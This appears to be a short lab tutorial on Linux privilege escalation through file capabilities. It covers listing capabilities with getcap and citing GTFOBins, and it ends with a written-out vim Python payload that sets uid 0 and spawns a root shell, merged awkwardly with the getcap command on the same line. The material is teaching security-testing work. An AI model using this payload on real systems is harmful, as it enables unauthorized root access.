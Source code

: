 # Privilege Escalation: Capabilities

Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.\
The capabilities man page provides detailed information on its usage and options.\
\
We can use the `getcap` tool to list enabled capabilities.

![](https://i.imgur.com/Q6XYr0p.png)

When run as an unprivileged user, `getcap -r /` will generate a huge amount of errors, so it is good practice to redirect the error messages to /dev/null.\
\
Please note that neither vim nor its copy has the SUID bit set. This privilege escalation vector is therefore not discoverable when enumerating files looking for SUID.

![](https://i.imgur.com/6csoabB.png)

GTFObins has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities.\
\
We notice that vim can be used with the following command and payload:

<figure><img src="https://i.imgur.com/nlpCMWj.png" alt=""><figcaption></figcaption></figure>

This will launch a root shell as seen below;

![](https://i.imgur.com/jCjvgo3.png)

**Note:** Check the python version, if its python3 the command for capabilities should be change to:\
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")' getcap -r / 2>/dev/null

